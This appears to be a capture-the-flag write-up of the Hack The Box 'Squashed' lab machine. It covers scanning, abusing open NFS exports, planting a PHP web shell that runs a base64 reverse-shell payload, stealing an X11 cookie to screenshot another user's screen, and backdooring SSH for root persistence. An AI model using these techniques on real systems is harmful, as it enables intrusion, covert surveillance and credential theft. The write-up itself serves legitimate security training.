

+++
title = "Squashed"
date = "2024-01-07"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2022-11-10

**Created by**: [polarbearer](https://app.hackthebox.com/users/159204) &
[C4rm3l0](https://app.hackthebox.com/users/458049)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.191`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Squashed using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.191" -p-
```

```
<SNIP>
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37265/tcp open  unknown
48597/tcp open  unknown
49577/tcp open  unknown
56227/tcp open  unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.191" --top-ports "500"
```

```
<SNIP>
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
111/udp  open          rpcbind
631/udp  open|filtered ipp
2049/udp open          nfs
5353/udp open|filtered zeroconf
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.191" -p "22,80,111,2049" -sV
```

```
<SNIP>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     3-4 (RPC #100003)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Let's do the same for the UDP ports.

```sh
❯ nmap -sU "10.10.11.191" -p "68,111,631,2049,5353" -sV
```

```
<SNIP>
PORT     STATE         SERVICE  VERSION
68/udp   open|filtered dhcpc
111/udp  open          rpcbind  2-4 (RPC #100000)
631/udp  open|filtered ipp
2049/udp open          nfs      3 (RPC #100003)
5353/udp open|filtered zeroconf
<SNIP>
```

Alright, so `nmap` managed to determine that Squashed is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.191" -p "22,80,111,2049" -sC
```

```
<SNIP>
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http
|_http-title: Built Better
111/tcp  open  rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      32788/udp6  mountd
|   100005  1,2,3      45549/tcp6  mountd
|   100005  1,2,3      53115/tcp   mountd
|   100005  1,2,3      60979/udp   mountd
|   100021  1,3,4      34711/tcp6  nlockmgr
|   100021  1,3,4      38239/udp   nlockmgr
|   100021  1,3,4      38399/tcp   nlockmgr
|   100021  1,3,4      42110/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs
<SNIP>
```

Let's also run them on the UDP services.

```sh
❯ nmap -sU "10.10.11.191" -p "68,111,631,2049,5353" -sC
```

```
<SNIP>
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
111/udp  open          rpcbind
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      38531/udp   mountd
|   100005  1,2,3      56227/tcp   mountd
|   100021  1,3,4      37265/tcp   nlockmgr
|   100021  1,3,4      52790/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
631/udp  open|filtered ipp
2049/udp open          nfs
5353/udp open|filtered zeroconf
<SNIP>
```

## Services enumeration

### NFS

#### Exports

Let's get the list of all exports for Squashed.

```sh
❯ showmount -e "10.10.11.191"
```

```
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

The `/home/ross` and `/var/www/html` folders are accessible by all machines.

#### Exploring `/home/ross`

Let's mount this folder on our machine.

```sh
❯ mount -t "nfs" "10.10.11.191:/home/ross" "/workspace/nfs/ross" -o "nolock"
```

This folder is owned by a user with UID `1001`, so I won't be able to list all
of its content. To circuvment this problem, I'll simply create a dummy user with
this UID, and change to it.

If we explore the content of this folder, we find many files and folders.
However, only two files are really interesting: `.Xauthority` and
`Passwords.kdbx`.

#### Inspecting `/home/ross/.Xauthority`

Let's parse the content of this file using `xauth`.

```sh
❯ xauth -f "/workspace/nfs/ross/.Xauthority"
```

```
<SNIP>
xauth> list
squashed.htb/unix:0  MIT-MAGIC-COOKIE-1  c0bb3ef67a523a530f88b517a9439e7b
```

It contains a 'MIT-MAGIC-COOKIE-1'.

In fact, this cookie is used as a form of authentication to ensure that only
authorized clients can display windows on the X11 server.

This means two things. First, `ross` is probably connected on the machine and
using the X11 server. Second, we should be able to access `ross`'s display!

#### Inspecting `Passwords.kdbx`

Let's try to open `Passwords.kdbx` using KeePassXC.


Predictably, we're asked to enter a password. Unfortunately, common ones don't work.

#### Hash cracking

Let's extract the password hash from the `.kdbx` file:

```sh
❯ keepass2john "/workspace/nfs/ross/Documents/Passwords.kdbx" > "/workspace/keepass.hash"
```

```
! /workspace/nfs/ross/Documents/Passwords.kdbx : File version '40000' is currently not supported!
```

We got an error... looks like a dead end.

#### Exploring `/var/www/html`

Let's mount this folder on our machine.

```sh
❯ mount -t "nfs" "10.10.11.191:/var/www/html" "/workspace/nfs/html" -o "nolock"
```

This folder is owned by a user with UID `2017`, so I'll do the same trick as
before to get access to the content of this mount.

If we explore its content, we see that it corresponds to a website. Perhaps it's
the one running on port `80`?

### Apache

#### Exploration

Let's browse to `http://10.10.11.191/`.


It's just a template website. None of the functionalities nor links are working.

#### Fingerprinting

Let's fingerprint the technologies used by this website with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



The footer of the web page leaks that it's a template made by
[HTML Design](https://html.design/).

#### Exploration

If we compare this web page with the `index.html` file we found in the
`/var/www/html` NFS export, we see that they're the same. This means that we
have access to the source code of the web server!

## Foothold (RCE)

Since we have read and write access to the source code of the web server through
the `/var/www/html` NFS export, we can simply add an executable file to get RCE.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it in `/workspace/nfs/html` as `revshell.php`, which will effectively
place it on Squashed in `/var/ww/html`.

### Exploitation

Let's send a request to Squashed to execute our payload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.11.191/revshell.php"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.191] 52474
<SNIP>
alex@squashed:/var/www/html$
```

It caught the reverse shell!

### Spawning a tty & establishing persistence

Let's use SSH to spawn a tty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Squashed as `alex`.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `alex`.

### Architecture

What is Squashed's architecture?

```sh
alex@squashed:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Squashed is using.

```sh
alex@squashed:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.5 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Squashed.

```sh
alex@squashed:~$ uname -r
```

```
5.4.0-131-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
alex@squashed:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
alex
root
ross
```

There's `alex` (us), `root` and `ross`.

### Groups

Let's enumerate all groups.

```sh
alex@squashed:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
alex
audio
avahi
backup
bin
bluetooth
cdrom
colord
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
geoclue
gnats
input
irc
kmem
kvm
landscape
lightdm
list
lp
lpadmin
lxd
mail
man
messagebus
netdev
news
nogroup
nopasswdlogin
operator
plugdev
proxy
pulse
pulse-access
render
root
ross
rtkit
saned
sasl
scanner
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
alex@squashed:~$ ifconfig
```

```
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.191  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:c933  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:c933  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:c9:33  txqueuelen 1000  (Ethernet)
        RX packets 4422  bytes 414214 (414.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5488  bytes 6898674 (6.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2593  bytes 209379 (209.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2593  bytes 209379 (209.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Squashed's hostname?

```sh
alex@squashed:~$ hostname
```

```
squashed.htb
```

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
alex@squashed:~$ cat "/home/alex/user.txt"
```

```
cf3944645a2b30e9f4691d1831fa6659
```

### Displays

Before continuing our enumeration of the box and falling in rabbit holes, let's
check if we can access `ross`'s display using the `.Xauthority` file we
discovered [earlier](#inspecting-home-ross-xauthority).

First, we need to find the list of connected displays.

```sh
alex@squashed:~$ w
```

```
<SNIP>
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               20:34   34:57   3.95s  0.10s /usr/libexec/gnome-session-binary --systemd --session=gnome
alex     pts/0    10.10.14.10      21:07    0.00s  0.01s  0.00s w
```

As we suspected, the `ross` user is connected and uses the display `:0`, so we
should be able to see what he sees!

To do so, we need the `.Xauthority` file we got previously, so I'll transfer it
to Squashed. Then, we can use it to take a screenshot of `ross`'s display:

```sh
alex@squashed:~$ XAUTHORITY="/tmp/.Xauthority" xwd -root -screen -silent -d ":0" -out "/tmp/screenshot.xwd"
```

```
<SNIP>
```

I'll transfer the `screenshot.xwd` to my machine.

However, the file is in the XWD format, so we can't really read it. We have to
convert it first:

```sh
❯ convert "/workspace/screenshot.xwd" "/workspace/screenshot.png"
```

Now let's open it.


So `ross` has KeepassXC open. It's probably the `Passwords.kdbx` database we
found [earlier](#inspecting-passwords-kdbx)!

We see that it contains a single entry named 'System'. Fortunately, the username
`root` and the password `cah$mei7rai9A` are visible!

## Privilege escalation (Impersonation)

I tried the `cah$mei7rai9A` password to connect to Squashed over SSH as `root`,
but it failed.

However, if we try it to impersonate `root` on the system...

```sh
alex@squashed:~$ su -
```

```
Password: 
root@squashed:~#
```

It works!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.

It won't be enough to connect over SSH to Squashed though, since the
`/etc/ssh/sshd_config` has the line `PermitRootLogin no`. I'll set it to `yes`,
and I'll restart the SSH service.

Finally, I'll connect over SSH to Squashed as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@squashed:~# cat "/root/root.txt"
```

```
25aba656976dc0d5a3065ac830503dc7
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Not too easy' to obtain.
The foothold was quite easy to identify and straightforward to exploit. However,
the privilege escalation was a bit harder, since it required to abuse the
`.Xauthority` file to take a screenshot of another user's display, which is
something I've never done before. It was then trivial to escalate to `root`.

Thanks for reading!
